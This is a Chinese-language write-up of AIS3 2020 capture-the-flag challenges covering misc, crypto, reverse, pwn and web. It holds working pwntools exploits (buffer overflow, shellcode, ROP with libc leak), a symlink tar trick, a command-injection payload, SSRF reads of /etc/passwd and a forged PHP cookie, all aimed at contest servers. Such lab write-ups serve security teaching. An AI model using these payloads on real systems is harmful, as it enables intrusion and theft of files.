# AIS3 2020

## My First CTF 題組 Misc

### Karuego

binwalk 下去之後可以看到裡面包含一個 zip ，採用 rockyou 字典檔對弱密碼攻擊

``` bash
binwalk Karuego_0d9f4a9262326e0150272debfd4418aaa600ffe4.png -e 
cd _Karuego_0d9f4a9262326e0150272debfd4418aaa600ffe4.png.extracted
curl https://raw.githubusercontent.com/praetorian-code/Hob0Rules/master/wordlists/rockyou.txt.gz |  gunzip - > rockyou.txt
fcrackzip -v -u -D -p rockyou.txt 1F6D30.zip
```

PASSWORD FOUND!!!!: pw == lafire

密碼為 `lafire`

可以看到 Demon.png 


這個拼寫要注意一下用 0 和小寫 L ，不然 flag 是錯的

``` plaintext
AIS3{Ar3_y0u_r34l1y_r34dy_t0_sumnn0n_4_D3m0n?}
```

### Shichirou

下載原始碼下來

``` python
#!/usr/bin/env python3

import os
import sys
import tempfile
import subprocess
import resource

resource.setrlimit(resource.RLIMIT_FSIZE, (65536, 65536))
os.chdir(os.environ['HOME'])

size = int(sys.stdin.readline().rstrip('\r\n'))
if size > 65536:
    print('File is too large.')
    quit()

data = sys.stdin.read(size)
with tempfile.NamedTemporaryFile(mode='w+', suffix='.tar', delete=True, dir='.') as tarf:
    with tempfile.TemporaryDirectory(dir='.') as outdir:
        tarf.write(data)
        tarf.flush()
        try:
            subprocess.check_output(['/bin/tar', '-xf', tarf.name, '-C', outdir])
        except:
            print('Broken tar file.')
            raise

        try:
            a = subprocess.check_output(['/usr/bin/sha1sum', 'flag.txt'])
            b = subprocess.check_output(['/usr/bin/sha1sum', os.path.join(outdir, 'guess.txt')])
            a = a.split(b' ')[0]
            b = b.split(b' ')[0]
            assert len(a) == 40 and len(b) == 40
            if a != b:
                raise Exception('sha1')
        except:
            print('Different.')
            raise

        print(open('flag.txt', 'r').readline())
```

可以看到該題目嘗試讀取文件大小，並且後面接著把文件讀到 data 當中，並且建立一個臨時檔案在當前的目錄。

接下來在透過 tar 將該檔案解壓縮，比較 `flag.txt` 與 `guess.txt` 是否相同，因此這邊猜測 `flag.txt` 的路徑應該是在 HOME 的位置，python 運作時也以 HOME 作為當前目錄，並且發現暫存檔會在當下產臨時目錄保存，該程式碼會從該目錄提取 `guess.txt` ，也就是說可以透過**軟連結**嘗試把 `guest.txt` 指向 HOME 目錄的 `flag.txt` ，也因此可以產生相同的結果。

```bash
ln -s ../flag.txt guess.txt 
tar -cf test.tar guess.txt  
echo "10240\r\n$(cat test.tar)"|nc 60.250.197.227 11000
```

flag 出來了

```paintext
AIS3{Bu223r!!!!_I_c4n_s33_e_v_e_r_y_th1ng!!}
```

參見[安全客【CTF 攻略】DerbyCon 2017 CTF Write Up](https://www.anquanke.com/post/id/86987)

### Piquero [未解開]

點字，這題找了一些工具和圖表還是沒用出正確的 flag

## My First CTF 題組 Crypto

### Brontosaurus

jsfuck 反過來，題目檔名也瘋狂暗示反過來 `KcufsJ`，下面的 python 程式碼是把 `KcufsJ` 反轉，可以得到正確的 jsfuck 格式，並且把產出的結果拿去 javascript 直譯器執行即可得出 flag

``` bash
python -c 'print(open("KcufsJ").read()[::-1])'|node
```

上面 python 執行好之後可以得到 javascript ，執行該 javascript 就可以得到 flag

``` plaintext
AIS3{Br0n7Os4uru5_ch3at_3asi1Y}
```

### T-Rex

這題有點水，觀察後可以發現兩個字元是一種座標的表示方法。

只需要用 python 把 key 映射到陣列就可以產出結果即可。

``` python
#!/usr/bin/env python

array = [
"  V       F       Y       J       6       1".split(),
"       5       0       M       2       9       L".split(),
"       I       W       H       S       4       Q".split(),
"       K       G       B       X       T       A".split(),
"       E       3       C       7       P       N".split(),
"       U       Z       8       R       D       O".split()
]


index = {
        '!': 0,
        '@': 1,
        '#': 2,
        '$': 3,
        '%': 4,
        '&': 5
        }

dict1 = {}

for i in "!@#$%&":
    for j in "!@#$%&":
        key = j + i
        print(key)
        print(array[index[i]][index[j]])
        dict1[key] = array[index[i]][index[j]]

chipertext = '&$ !# $# @% { %$ #! $& %# &% &% @@ $# %# !& $& !& !@ _ $& @% $$ _ @$ !# !! @% _ #! @@ !& _ $# && #@ !% %$ ## !# &% @$ _ $& &$ &% %& && #@ _ !@ %$ %& %! $$ &# !# !! &% @% ## $% !% !& @! #& && %& !% %$ %# %$ @% ## %@ @@ $% ## !& #% %! %@ &@ %! &@ %$ $# ## %# !$ &% @% !% !& $& &% %# %@ #$ !# && !& #! %! ## #$ @! #% !! $! $& @& %% @@ && #& @% @! @# #@ @@ @& !@ %@ !# !# $# $! !@ &$ $@ !! @! &# @$ &! &# $! @@ &@ !% #% #! &@ &$ @@ &$ &! !& #! !# ## %$ !# !# %$ &! !# @# ## @@ $! $$ %# %$ @% @& $! &! !$ $# #$ $& #@ %@ @$ !% %& %! @% #% $! !! #$ &# ## &# && $& !! !% $! @& !% &@ !& $! @# !@ !& @$ $% #& #$ %@ %% %% &! $# !# $& #@ &! !# @! !@ @@ @@ ## !@ $@ !& $# %& %% !# !! $& !$ $% !! @$ @& !& &@ #$ && @% $& $& !% &! && &@ &% @$ &% &$ &@ $$ }'.split(' ')

for c in chipertext:
    if c == '{' or c == '_' or c == '}':
        print(c, end='')
    else:
        print(dict1[c], end='')
```

``` plantext
AIS3{TYR4NN0S4URU5_R3X_GIV3_Y0U_SOMETHING_RANDOM_5TD6XQIVN3H7EUF8ODET4T3H907HUC69L6LTSH4KN3EURN49BIOUY6HBFCVJRZP0O83FWM0Z59IISJ5A2VFQG1QJ0LECYLA0A1UYIHTIIT1IWH0JX4T3ZJ1KSBRM9GED63CJVBQHQORVEJZELUJW5UG78B9PP1SIRM1IF500H52USDPIVRK7VGZULBO3RRE1OLNGNALX}
```


### blowfish [未解開]

pickle 反序列化 `user.pickle` 之後可以看到內容

``` python
[{'name': 'maojui', 'password': 'SECRET', 'admin': False}, {'name': 'djosix', 'password': 'S3crE7', 'admin': False}, {'name': 'kaibro', 'password': 'GGInIn', 'admin': False}, {'name': 'others', 'password': '_FLAG_', 'admin': False}]
```

這邊思考是不是某種已知明文攻擊漏洞

blowfish known plaintext attack

## My First CTF 題組 Reverse

### TsaiBro

題目包含一個 `TsaiBro` 與 `TsaiBroSaid`，後者包含 flag，並且直接爆破解先產出 table 然後在做 lexcal 組合 key解出來。

``` python
#!/usr/bin/env python
import subprocess
import string

drop = 'Terry...逆逆...沒有...學問...單純...分享...個人...生活...感觸...\n'

def ascii_to_output(str1):
    return subprocess.check_output(['./TsaiBro', str1]).decode("utf-8").replace(drop, '')

dict1 = {}
for char in string.printable:
    dict1[ascii_to_output(char)] = char
print(dict1)

with open('./TsaiBroSaid') as f:
    data = f.read().replace(drop, '').split("發財")
    data.pop(0)
    while len(data) >= 2:
        data1 = data.pop(0)
        data2 = data.pop(0)
        key = '發財' + data1 + '發財' + data2
        print(dict1[key],end='')
```

``` plaintext
AIS3{y3s_y0u_h4ve_s4w_7h1s_ch4ll3ng3_bef0r3_bu7_its_m0r3_looooooooooooooooooong_7h1s_t1m3}
```

### Fallen Beat

 用 jd gui 反編譯之後觀察程式碼，發現 `Visual.PanelEnding.class` 似乎包含 flag 顯示的相關資訊，如果直接把該內容印出來是沒辦法正常顯示的，所以考慮原先的執行方法。

 

可以看到他需要達成一定的條件才能執行，對 java 做 patch 把此條件去除後之後強制顯示 flag 內容，只需要等待跑完，得出 flag 結果。




``` plaintext
Flag: AIS3{Wow_how_m4ny_h4nds_do_you_h4ve}
```

### Stand up!Brain

逆向之後發現似乎字串最多只有 6 字

``` c
scanf("%6s", str);
```


看到 switch case 為 `+-.<>[]`並且發現讀取的為 bram fuck 程式碼


並且擷取該地址的內容為

``` plaintext
-------------------------------------------------------------------[>[-]<[-]]>[>--------------------------------------------------------[>[-]<[-]]>[>-------------------------------------------------------[>[-]<[-]]>[>------------------------------------------------------[>[-]<[-]]>[>---------------------------------------------------[>[-]<[-]]>[>---------------------------------[>[-]<[-]]>[>>----[---->+<]>++.++++++++.++++++++++.>-[----->+<]>.+[--->++<]>+++.>-[--->+<]>-.[---->+++++<]>-.[-->+<]>---.[--->++<]>---.++[->+++<]>.+[-->+<]>+.[--->++<]>---.++[->+++<]>.+++.[--->+<]>----.[-->+<]>-----.[->++<]>+.-[---->+++<]>.--------.>-[--->+<]>.-[----->+<]>-.++++++++.--[----->+++<]>.+++.[--->+<]>-.-[-->+<]>---.++[--->+++++<]>.++++++++++++++.+++[->+++++<]>.[----->+<]>++.>-[----->+<]>.---[->++<]>-.++++++.[--->+<]>+++.+++.[-]]]]]]]
```

發現該程式碼構造 6 個輸入，不論怎麼構造都不會輸出

直接提取內容觀察發現似乎有規律，提取內部顯示的部份得出 flag

``` plaintext
>>----[---->+<]>++.++++++++.++++++++++.>-[----->+<]>.+[--->++<]>+++.>-[--->+<]>-.[---->+++++<]>-.[-->+<]>---.[--->++<]>---.++[->+++<]>.+[-->+<]>+.[--->++<]>---.++[->+++<]>.+++.[--->+<]>----.[-->+<]>-----.[->++<]>+.-[---->+++<]>.--------.>-[--->+<]>.-[----->+<]>-.++++++++.--[----->+++<]>.+++.[--->+<]>-.-[-->+<]>---.++[--->+++++<]>.++++++++++++++.+++[->+++++<]>.[----->+<]>++.>-[----->+<]>.---[->++<]>-.++++++.[--->+<]>+++.+++.
```

之後用打印得出 flag

``` plaintext
AIS3{Th1s_1s_br4iNFUCK_bu7_m0r3_ez}
```

## My First CTF 題組 Pwn

### BOF

一樣先 checksec

``` plaintext
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

發現 PIE 沒有打開，所以 ELF 加載到記憶體後不會 ASLR 就不用洩漏基準地址，CANARY 沒有打開代表可能可以 buffer overflow。

FUN_00400687  有 shell ，這裡需要找到適當的填充，讓 shellcode 預定的 return address 可以被覆蓋，由於是 64 位元的系統，系統堆疊基本上都是 8 bytes



由於寫 payload 是在不同發行板的 linux ，因此在 ubuntu 執行時要少 8 bytes

``` python
#!/usr/bin/env python
from pwn import *
import pwnlib.elf

c = remote('60.250.197.227', 10000)
#c = process('./bof-767fdf896cf9838c0294db24eaa1271ebf15a6e638a873e94ab9682ef28464b4')
e = ELF('./bof-767fdf896cf9838c0294db24eaa1271ebf15a6e638a873e94ab9682ef28464b4')

context.terminal = ['alacritty', '-e', 'sh', '-c']
#gdb.attach(c)

ans = b'a' *(48 + 8 - 8 ) + p64(0x00400687)

c.sendline(ans)

c.interactive()
#c.close()
```

連上後在家目錄找到 flag

``` plaintext
AIS3{OLd_5ChOOl_tr1ck_T0_m4Ke_s7aCk_A116nmeNt}
```

### Nonsense 

 ``` plaintext
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
 ```

PIE 與 NX 都沒有，代表無 ASLR 無禁止 stack 執行，也就是很多手法都可以考量。

反編譯之後發現他似乎先進入一個函數檢查輸入的內容，讀取 0x6010a0 通過檢查之後就執行該記憶體



發現指定要有 `wubbalubbadubdub` ，這個數值保存在 0x00601040 中，與輸入的數值進行比較，如果找到該字串就可以執行


由於構造 shellcode 很難預料有哪些數值，有沒有辦法先通過檢測之後略過該字串跳到 shellcode 上呢？

發現 wu 的  w 為 ja 所以直接用機械碼在字串開頭選定 offset 之後跳到 Shellcode 上並且執行，前面字元 `1` 僅僅用來填充第一個 `read()`，不過也許該地址也有其他利用方法。

``` python
#!/usr/bin/env python
from pwn import *
import pwnlib.elf
import pwnlib.shellcraft

c = remote('60.250.197.227', 10001)
#c = process('./nonsense-8ccbca2ca7f8825c843596a09c0806275a5b3fdf1c6c570bc0276fb0afc9210c')
e = ELF('./nonsense-8ccbca2ca7f8825c843596a09c0806275a5b3fdf1c6c570bc0276fb0afc9210c')

context.terminal = ['alacritty', '-e', 'sh', '-c']
#gdb.attach(c)

#init
context.os='linux'
context.arch='amd64'
# context.log_level ='debug'

shell = shellcraft.sh()
print(asm(shell))
print(disasm(b"\x77\x20"))

ans = b'1' * 15 + b'\n'
ans += b"\x77\x20"
ans += b"wubbalubbadubdub"
ans += b'1' * 16
ans += asm(shell) # put shellcode to message

c.sendline(ans)

c.interactive()
c.close()
```

之後他讀到之前的 ja 掠過 wubbalubbadubdub 之後 jmp 到 shellcode

``` plaintext
AIS3{Y0U_5peAk_$helL_codE_7hat_iS_CARzy!!!}
```

#### 參考

http://faydoc.tripod.com/cpu/jb.htm

### Portal gun

``` plaintext
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

只有 NX  與 Partial RELRO ，代表需要透過其他手法執行傳入的 shellcode 以 ROP 處理 。

先將 buffer 填滿約為 112 + 8 的大小，後面擺放 ROP Chain ，並且打印 gets 的 GOT 內容，並且參照該內容找到 lib 的  system 函數地址，將原先被 hook 的 system 重新 hook ，不然進入 PLT 會跑到不能使用的 system。

為了避免 shellcode 執行上的問題，可能與不同系統有關，這裡 return shellcode 兩次似乎比較穩定。

``` python
#!/usr/bin/env python
from pwn import *
import pwnlib.elf
import pwnlib.shellcraft


e = ELF('./portal_gun-43fcd0f6ae670ddb11a66bbfbca721410941ee30a5d1d802a6f509bcf7a765ac')
c = remote('60.250.197.227', 10002)
lib = ELF('./libc.so.6-cd7c1a035d24122798d97a47a10f6e2b71d58710aecfd392375f1aa9bdde164d')

#lib = ELF('/lib/libc-2.31.so')
#c = process('./portal_gun-43fcd0f6ae670ddb11a66bbfbca721410941ee30a5d1d802a6f509bcf7a765ac', env={'LD_PRELOAD': './hook.so-997c848132f9fae3a5ffdb0edf7c9071a0dcdebb99c116c5bd011efd28c942ae'})

context.terminal = ['alacritty', '-e', 'sh', '-c']
#gdb.attach(c)

#init
context.os='linux'
context.arch='amd64'
context.log_level ='debug'

ans = b'A' * (112 + 8) # fill buffer

# get gets location
p = p64(0x00000000004007a3) # pop rdi ; ret
p += p64(e.got['gets'])
p += p64(0x400560) # puts

# rehook system to exec
p += p64(0x00000000004007a3) # pop rdi ; ret
p += p64(e.got['system'])
p += p64(0x400580) # gets

# ret to call system
p += p64(0x4006e8)
p += p64(0x4006e8)

ans += p
c.sendline(ans)

# drip line
c.recvline()
c.recvline()

# get lib address
gets_addr = int.from_bytes(c.recvline(), "little") & 0x0000ffffffffffff
print(hex(gets_addr))

# write new system
lib_start = gets_addr - lib.symbols['gets']
lib_system = lib_start + lib.symbols['system']
c.sendline(p64(lib_system))

c.interactive()
c.close()
```

``` plaintext
AIS3{U5E_Port@L_6uN_7o_GET_tHe_$h3L1_0_o}
```

## My First CTF 題組 Web

### Squirrel

一開始先檢視網頁原始碼內容，可以看到由 `api.php` 呼叫 `/etc/passwd` ，可能是一種檔案讀取方式，如此嘗試讀取 api.php 本身並且觀察程式碼。

``` html
  <script>
    const squirrelFile = '/etc/passwd';

    fetch('api.php?get=' + encodeURIComponent(squirrelFile))
      .then(res => res.json())
      .then(data => {
        if ('error' in data) {
          throw data.error;
        }
        data.output.split('\n')
          .map(line => line.split(':')[0].trim())
          .filter(name => name.length)
          .forEach(name => new Squirrel(name).update());
      })
      .catch(err => {
        console.log(err);
        alert('Something went wrong! Please report this to the author!');
      });
  </script>
```

https://squirrel.ais3.org/api.php?get=api.php

看起來為簡單的 Command  Injection ，可以任意注入指令，並且嘗試找出 flag 存在的位置。

``` php
<?php

header('Content-Type: application\/json');

if ($file = @$_GET['get']) {
    $output = shell_exec("cat '$file'");

​    if ($output !== null) {
​        echo json_encode([
​            'output' => $output
​        ]);
​    } else {
​        echo json_encode([
​            'error' => 'cannot get file'
​        ]);
​    }
} else {
​    echo json_encode([
​        'error' => 'empty file path'
​    ]);
}
```

最後找到根目錄存在疑似為 flag 的檔案並且讀取

``` plaintext
https://squirrel.ais3.org/api.php?get=/5qu1rr3l_15_4_k1nd_0f_b16_r47.txt' ;ls /;echo'
```

這題也可以透過 grep 或 find 來加快找到 flag 的速度，構造 payload 發現好像彈不出 shell  原因是因為被過濾，這個也可以 bypass ，只需要透過 curl 下載現有的 shell 即可。

``` plaintext
AIS3{5qu1rr3l_15_4_k1nd_0f_b16_r47}
```

### Shark

進入後看到 hint 的地址在

**https://shark.ais3.org/?path=hint.txt**

這個網址直覺理應想到 LFI 相關的漏洞，可以用 `./` 之類的方式驗證但這題有過濾器，讀取 `index.php` 則看到僅僅可以載入內容但不是 LFI 之類的，不過依然可以有其他利用的部份，hint 也提到要讀取其他伺服器內容，嘗試進行 SSRF 。

進入查看可以看到

https://shark.ais3.org/?path=index.php

``` plaintext
preg_match('/^(\.|\/)/', $path)
```

代表需要邊碼，而編碼的部份只需要避免被過濾器過濾，在 `file_get_contents` 執行時依然可以正常連線，。

``` plaintext
 hex(ord('/'))
\>>> hex(ord('.'))
'0x2e'
```

收集一些資訊故意報錯或許可以用到。

``` plaintext
 /var/www/html/index.php  
```

一次編碼，如果不使用 file 協議的話，傳入的 `%2F` 依然會被轉譯，嘗試觀察幾個地點

``` plaintext
file:%2F%2F%2Fetc%2Fpasswd
https://shark.ais3.org/?path=file:%2F%2F%2Fetc%2Fpasswd

file:///etc/hosts
https://shark.ais3.org/?path=file%3A%2F%2F%2Fetc%2Fhosts

https://shark.ais3.org/?path=file%3A%2F%2F%2Fetc%2Fresolv.conf
https://shark.ais3.org/?path=file%3A%2F%2F%2Fetc%2Fhostname
```

發現自己 ip 是 172.22.0.3 有沒有 2 呢？

``` plaintext
http://172.22.0.2/flag
https://shark.ais3.org/?path=http%3A%2F%2F172.22.0.2%2Fflag
```

``` plaintext
AIS3{5h4rk5_d0n'7_5w1m_b4ckw4rd5}
```

### Elephant

https://elephant.ais3.org/

登入之後可以看到 cookie

``` plaintext
elephant_user=Tzo0OiJVc2VyIjoyOntzOjQ6Im5hbWUiO3M6NDoicm9vdCI7czoxMToiAFVzZXIAdG9rZW4iO3M6MzI6ImI2ZjUxYWE0Yjg1NjdjZjFjZTI0YWM0YzU0OWJlNjRlIjt9;
```

解碼看到 php 序列化的特徵

``` plaintext
O:4:"User":2:{s:4:"name";s:4:"root";s:11:"Usertoken";s:32:"b6f51aa4b8567cf1ce24ac4c549be64e";}
```

先還原並且看到原始 class 中的成員

``` php
<?php
var_dump(base64_decode ( "Tzo0OiJVc2VyIjoyOntzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6MTE6IgBVc2VyAHRva2VuIjtzOjMyOiIwMDFiZmYzNmFiZjFmMTgzMWNhOWNmNjQyYjNkZjMwNCI7fQ%3D%3D" ));
echo var_dump(unserialize(base64_decode ( "Tzo0OiJVc2VyIjoyOntzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6MTE6IgBVc2VyAHRva2VuIjtzOjMyOiIwMDFiZmYzNmFiZjFmMTgzMWNhOWNmNjQyYjNkZjMwNCI7fQ%3D%3D" )));
```

構造新 cookie ，去除掉 token 之後即可使用

``` php
<?php
class User{
  public $name = '';
  // private $token='';
}

$h = new User();
echo 'elephant_user=' . base64_encode(serialize($h));
```

透過使用此 cooke 來得到 flag

``` bash
curl https://elephant.ais3.org/ --cookie "elephant_user=Tzo0OiJVc2VyIjoxOntzOjQ6Im5hbWUiO3M6MDoiIjt9"
```

hm.. 這裡就可以解出來有點意外，應該還缺乏一些反序列化需要的條件，比方說要知道程式碼運作以及觸發一些東西等。

``` plaintext
AIS3{0nly_3l3ph4n75_5h0uld_0wn_1v0ry}
```

參考

- [php反序列化由浅到深](https://xi4or0uji.github.io/2019/06/27/php反序列化由浅到深/)
- https://www.jianshu.com/p/631606cc5b76

## pre-exam 題組 Misc

### Soy

原始 QRcode 仔細看會發現部份紅色當中透露白底或黑底，以及一些 QRcode 的基本特徵修補，根據這些資訊把大部分 QRcode 修復好變成下圖就可以掃描。



``` plaintext
AIS3{H0w_c4n_y0u_f1nd_me?!?!?!!}
```

### Saburo

發現正確的 flag 對多 10 左右的延遲，所以透過 python 暴力產生解，然後每次求最大就可以了。

用 bash 產生可能的 char 列表給 python 用並且把空白剝去

``` bash
echo {_,\!,{0..9},{a..z},{A..Z},'}'} | sed 's/ //g'
```


並且注意爆破解的時間必須要增加才是正確，一次產多個 char 如果正確的話，時間間隔會更大，也比較不會出錯 (可能？)，或者多傳幾次求總值來提昇正確性，這裡採用後者，這樣可以大幅降低人為介入的機率。

``` python
#!/usr/bin/env python
from pwn import *
import string

ans = 'AIS3{'
#ans = 'AIS3{A1r1ght_U_4r3_my_3n3nnies'

flagchar = '_!0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

while True:
    max = -1
    max_char = ''
    for char in flagchar:
        str1 = char
        time = 0
        for i in range(5):
            c = remote('60.250.197.227', 11001)
            c.sendline(ans + str1)
            c.recvuntil('Haha, you lose in ') # drop
            c.close()
            time += int(c.recvuntil(' '))

        if max == -1 or max < time:
            max = time
            max_char = str1
    print(max)
    print(max_char)
    ans += max_char
    print (ans)
```

檢查正確之後，更新 prefix 如果準確度不夠，就提昇發送的次數，最後如果不斷求出相同的值並且後面不斷變化，很有可能已經得到正確的結果，可以補上`}` 的判斷。

``` bash
python test.py |grep --invert-match '60.250.197.227 ' 
```

最後得出 flag ，傳進序驗證得到 `Oh, you win. QQ`

``` plaintext
AIS3{A1r1ght_U_4r3_my_3n3nnies}
```

## pre-exam 題組 Reverse

### Long Island Iced Tea

題目給予執行與被加密的 flag

``` plaintext
My encryptor 0.1
I didn't implement the decryptor
So,you'll never find out my secret unless I am drunk
850a2a4d3fac148269726c5f673176335f6d335f55725f49475f346e645f746831735f31735f6d316e655f746572727974657272795f5f7d0000000000000000
```

可以看到只加密前半部份，後面直接由 hex 解碼得到 flag

``` python
#!/usr/bin/env python
import subprocess
import string

flag = '850a2a4d3fac148269726c5f673176335f6d335f55725f49475f346e645f746831735f31735f6d316e655f746572727974657272795f5f7d0000000000000000'

flag_part1 = flag[:8 * 2]
flag_part2 = flag[8 * 2:]
print(flag_part1)
print(bytearray.fromhex(flag_part2).decode())
```

``` plaintext
irl_g1v3_m3_Ur_IG_4nd_th1s_1s_m1ne_terryterry__}
```

發現加密沒寫好，只有前面 8 個 byte 會變化，由於前綴是 AIS3{ 已知 5 個字元，因此直接爆破 3 個 byte 即可

這裡產生字典檔並且注意底線與驚嘆號

``` bash
echo {_,\!,{A..Z},{a..z},{0..9}}{_,\!,{A..Z},{a..z},{0..9}}{_,\!,{A..Z},{a..z},{0..9}} > wordlist
```

開始爆破需要跑一陣子

``` bash
#!/bin/bash
echo > genlist
for str in $(cat wordlist)
do
  echo "AIS3{$str"irl_g1v3_m3_Ur_IG_4nd_th1s_1s_m1ne_terryterry__\} >> genlist
  echo "AIS3{$str"irl_g1v3_m3_Ur_IG_4nd_th1s_1s_m1ne_terryterry__\}| ./Long_Island_Iced_Tea >> genlist
  echo \n\n  >> genlist
done
```

這時檢查產生出來的結果是否含有 `850a2a4d3fac1482`

可以找到 `850a2a4d3fac148269726c5f673176335f6d335f55725f49475f346e645f746831735f31735f6d316e655f746572727974657272795f5f7d0000000000000000` 對到產出的 flag 上

flag

``` plantext
AIS3{A!girl_g1v3_m3_Ur_IG_4nd_th1s_1s_m1ne_terryterry__}
```

### Uroboros [未解開]

### La vie en rose [未解開]

pyinstxtractor
python [pyinstxtractor.py](http://pyinstxtractor.py/) xx.exe

## pre-exam 題組 Pwn

### Death crystal

``` plaintext
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

